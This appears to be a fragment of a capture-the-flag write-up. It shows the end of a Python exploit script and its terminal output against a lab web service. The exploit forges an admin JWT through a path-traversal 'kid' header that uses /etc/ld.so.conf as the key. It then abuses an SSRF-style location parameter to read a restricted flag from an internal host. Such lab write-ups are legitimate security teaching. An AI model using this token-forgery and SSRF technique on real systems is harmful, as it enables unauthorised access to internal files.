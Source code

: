 ```python
    f"{base_url}/api/document", 
    params={"location": f"@{domain}/{flag}#.disclosed", "raw":"true"}, 
    cookies={"jwt": jwt_encoded}
)

print(f"[%] Getting flag : {r.url}")
print(f" |___ Flag => {r.text}")

```


```
$> python3 flag.py http://10.0.21.22:40005 /etc/ld.so.conf

[!] Common key : /etc/ld.so.conf
 |___ jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uLy9ldGMvbGQuc28uY29uZiJ9.eyJhY2wiOiJhZG1pbiJ9.1XF9wpaqyYGu5YsihpAXOrsPxGa9ic9K8CVrpuA4qPULda0Efq3y50LZJ7cRnEdUPs25KrTwOCPHAcLWt5MLYA

[%] Getting leaks : http://10.0.21.22:40005/api/leaks
 |___ response => {"whistleblower.internal":["/flag_5d61b995c212f1ccb2ea.restricted"]}

[%] Getting flag : http://10.0.21.22:40005/api/document?location=%40whistleblower.internal%2F%2Fflag_5d61b995c212f1ccb2ea.restricted%23.disclosed&raw=true
 |___ Flag => ALG{Cu5t0m_JwT_AnD_D0ubl3_S5RF_FTW}

```
